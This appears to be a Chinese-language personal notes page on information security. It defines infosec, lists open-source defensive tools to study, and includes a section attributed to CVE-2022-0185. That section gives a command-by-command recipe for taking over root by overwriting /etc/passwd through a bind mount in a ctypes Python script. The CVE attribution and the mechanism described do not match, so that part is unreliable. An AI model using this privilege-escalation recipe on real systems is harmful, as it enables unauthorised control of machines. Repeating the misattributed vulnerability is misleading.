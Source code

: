 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
weight: 1
---
```


# 概述

> 参考：
>
> - [Wiki, Information_security](https://en.wikipedia.org/wiki/Information_security)

**Information security(信息安全，简称 infosec)** 是通过降低信息风险来保护信息的实践。

[Data secruity](https://en.wikipedia.org/wiki/Data_security)

[Network security](https://en.wikipedia.org/wiki/Network_security)

# 待总结

要研究态势感知或安全运营中心，可以采用 OSSIM

要研究入侵防御技术，可以采用 Snort 或 Security Onion

要研究防火墙技术，可以采用 pfSense 或 OPNsense

要研究 Web 应用防火墙（WAF ），可以采用 ModSecurity

要研究威胁情报技术，可以采用 MISP 或 OpenCTI

要研究漏洞扫描技术，可以采用 OpenVAS 或 W3AF

要研究堡垒机技术，可以采用 JumpServer

要研究蜜罐技术，可以采用 T-Pot 或 Hfish

# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root
输入密码：password
```

# 信息安全历史

[B 站，俄罗斯黑客的激荡三十年](https://www.bilibili.com/video/BV1uu4y1X7FX?spm_id_from=333.1245.0.0)
